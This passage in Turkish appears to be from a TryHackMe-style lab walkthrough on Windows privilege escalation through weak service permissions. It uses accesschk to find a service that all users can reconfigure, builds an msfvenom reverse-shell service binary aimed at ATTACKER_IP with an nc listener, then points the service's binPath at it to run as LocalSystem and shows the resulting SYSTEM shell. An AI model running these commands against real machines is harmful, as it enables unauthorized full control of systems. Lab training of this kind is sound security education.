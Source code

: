 ### Servisin Kendisindeki Güvensiz İzinler

Servisin yürütülebilir DACL'si iyi yapılandırılmışsa ve servisin binary yolu doğru şekilde ayarlanmışsa, servisten yararlanma şansınız hala olabilir. Servis DACL'si (servisin yürütülebilir DACL'si değil) bir servisin yapılandırmasını değiştirmenize izin veriyorsa, servisi yeniden yapılandırabiliriz. Bu, ihtiyacınız olan herhangi bir yürütülebilir dosyayı işaret etmenize ve SYSTEM'in kendisi de dahil olmak üzere tercih ettiğiniz herhangi bir hesapla çalıştırmanıza olanak tanır.

Komut satırından bir servis DACL'sini kontrol etmek için Sysinternals paketindeki Accesschk'i kullanabilirsiniz. Thmservice servisinin DACL'ini kontrol etme komutu şöyledir:

    C:\tools\AccessChk> accesschk64.exe -qlc thmservice
    [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
            SERVICE_QUERY_STATUS
            SERVICE_QUERY_CONFIG
            SERVICE_INTERROGATE
            SERVICE_ENUMERATE_DEPENDENTS
            SERVICE_PAUSE_CONTINUE
            SERVICE_START
            SERVICE_STOP
            SERVICE_USER_DEFINED_CONTROL
            READ_CONTROL
    [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
            SERVICE_ALL_ACCESS

Burada BUILTIN\\Users grubunun SERVICE_ALL_ACCESS iznine sahip olduğunu görebiliriz, bu da herhangi bir kullanıcının servisi yeniden yapılandırabileceği anlamına gelir.

Servisi değiştirmeden önce, başka bir exe-servis reverse shell'i oluşturalım ve saldırganın makinesinde bunun için bir dinleyici başlatalım:

    user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe

    user@attackerpc$ nc -lvp 4447

Daha sonra yürütülebilir reverse shell'i hedef makineye aktaracağız ve C:\Users\thm-unpriv\rev-svc3.exe'de saklayacağız. Yürütülebilir dosyanızı aktarmak ve istediğiniz konuma taşımak için wget'i kullanmaktan çekinmeyin. Payloadı yürütmek için Herkese izin vermeyi unutmayın:

    C:\> icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F

Servisin ilişkili yürütülebilir dosyasını ve hesabını değiştirmek için aşağıdaki komutu kullanabiliriz (sc.exe'yi kullanırken eşittir işaretinden sonraki boşluklara dikkat edin):

    C:\> sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem

Servisi çalıştırmak için herhangi bir hesabı kullanabileceğimize dikkat edin. Mevcut en yüksek yetkili hesap olduğu için LocalSystem'i seçtik. Payloadı tetiklemek için geriye kalan tek şey servisi yeniden başlatmaktır:

    C:\> sc stop THMService
    C:\> sc start THMService

Ve saldırganımızın makinesinde SYSTEM yetkilerine sahip bir reverse shell alacağız:

    user@attackerpc$ nc -lvp 4447
    Listening on 0.0.0.0 4447
    Connection received on 10.10.175.90 50650
    Microsoft Windows [Version 10.0.17763.1821]
    (c) 2018 Microsoft Corporation. All rights reserved.
